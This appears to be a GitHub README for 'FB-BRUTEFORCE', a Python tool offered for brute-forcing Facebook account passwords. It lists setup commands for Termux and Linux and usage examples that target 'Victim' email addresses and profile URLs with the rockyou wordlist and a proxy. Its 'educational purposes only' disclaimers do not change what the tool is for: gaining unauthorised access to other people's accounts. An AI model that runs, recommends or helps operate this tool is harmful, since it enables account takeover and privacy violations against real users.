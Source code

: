 ## Warning🚨:

**⚠️Misuse of information on this website/tool may result in criminal charges against the individuals concerned.  The authors and WHITEDH4CKER will not be held responsible in case any criminal charges are filed against any person misusing the information on the website/tool. This website/tool is designed for educational purposes only.⚠️**

## Screenshots:
![App Screenshot]
***
![App Screenshot]
***

## INSTALLATION:
   #### ➡️use the following commands for Termux & Linux:

```shell script
apt update && apt upgrade
```

```shell script
apt-get install python-pip
```

```shell script
pip install colorama termcolor requests
```

```shell script
pip nistall mechanize
```

```shell script
git clone https://github.com/WHITEDH4CKER/FB-BRUTEFORCE
```

```shell script
cd FB-BRUTEFORCE
```

```shell script
python FB-ATTACK.py
```
## Usage
   ```
       Usage: python ./FB-ATTACK.py [OPTIONS...]
Examples:
     |--------
     | python FB-ATTACK.py -t Victim@gmail.com -w /usr/share/wordlists/rockyou.txt
     |--------
     | python FB-ATTACK.py -t 100001013078780 -w C:\\Users\\Me\\Desktop\\wordlist.txt
     |--------
     | python FB-ATTACK.py -t Victim@hotmail.com -w D:\\wordlist.txt -p 144.217.101.245:3129
     |--------
     | python FB-ATTACK.py -t Victim@gmail.com -s 1234567
     |--------
     | python FB-ATTACK.py -g https://www.facebook.com/Victim_Profile
     |--------
```
## License
This software is distributed under the GNU General Public License version 3 (GPLv3)

## LEGAL NOTICE
THIS SOFTWARE IS PROVIDED FOR EDUCATIONAL USE ONLY! IF YOU ENGAGE IN ANY ILLEGAL ACTIVITY THE AUTHOR DOES NOT TAKE ANY RESPONSIBILITY FOR IT. BY USING THIS SOFTWARE YOU AGREE WITH THESE TERMS.

## 👤My Account For Support👤:

### ➡️ [Instagram](https://Instagram.com/WHITEDH4CKER)
### ➡️ [Telegram](https://t.me/WHITEDH4CKER)
### ➡️ [Telegram group](https://t.me/WHITEDR00M)

### <p align="center">```And Thanks for choosing this tool Support Us !``` 
  
 ## <p align="center">```WHITEDH4CKER [DEV_SANJAY]```

<p align="right"> Last FAQ Update: 29.12.2023 </p>
